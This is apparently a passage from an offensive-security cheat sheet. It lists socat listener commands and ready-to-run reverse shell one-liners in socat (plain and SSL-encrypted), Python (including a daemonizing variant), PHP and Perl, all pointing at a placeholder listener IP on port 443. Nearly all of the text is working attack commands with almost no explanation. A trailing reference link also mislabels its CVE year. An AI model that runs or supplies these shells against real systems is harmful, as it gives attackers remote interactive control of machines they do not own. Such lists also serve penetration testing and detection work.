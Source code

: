 Great to support full tty and/or encryption. See Socat Reverse Shell (next).

```sh
# full tty over TCP
# "-d -d" prints fatal, error, warning, and notice messages
socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:LISTEN_PORT

# no tty, plaintext over TCP
socat -d -d TCP-LISTEN:LISTEN_PORT STDOUT

# full tty, encrypted with SSL (needs socat reverse shell using OPENSSL)
socat -d -d file:`tty`,raw,echo=0 OPENSSL-LISTEN:LISTEN_PORT,cert=mycert.pem,verify=0,fork
```

Note: to generate `mycert.pem` see [these instructions](#451-create-self-signed-ssltls-certificate)


**Socat Reverse Shell**

Use with Socat Listener (previous)

```sh
# with full tty
socat EXEC:'/bin/bash -li',pty,stderr,setsid,sigint,sane TCP:LISTEN_IP:443

# no tty, text only
socat EXEC:/bin/bash TCP:LISTEN_IP:443

# full tty, encrypted with SSL (needs socat listener uing OPENSSL-LISTEN)
socat EXEC:'/bin/bash -li',pty,stderr,setsid,sigint,sane OPENSSL:LISTEN_IP:443,verify=0
```

**Python Reverse Shell**

```sh
python -c 'import os,socket,pty;s=socket.create_connection(("LISTEN_IP",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'

# daemonizing shell for *nix hosts
python -c 'import os,sys,socket,pty;os.fork() and sys.exit();os.setsid();os.fork() and sys.exit();s=socket.create_connection(("LISTEN_IP",443));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```


**PHP Reverse Shell**

```sh
# may have to try different socket numbers besides 3 (4,5,6...)
php -r '$sock=fsockopen("LISTEN_IP",443);exec("/bin/sh -i <&3 >&3 2>&3");'
```

**Perl Reverse Shell**

```sh
perl -e 'use Socket;$i="LISTEN_IP";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


[cve2022-1744]: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1744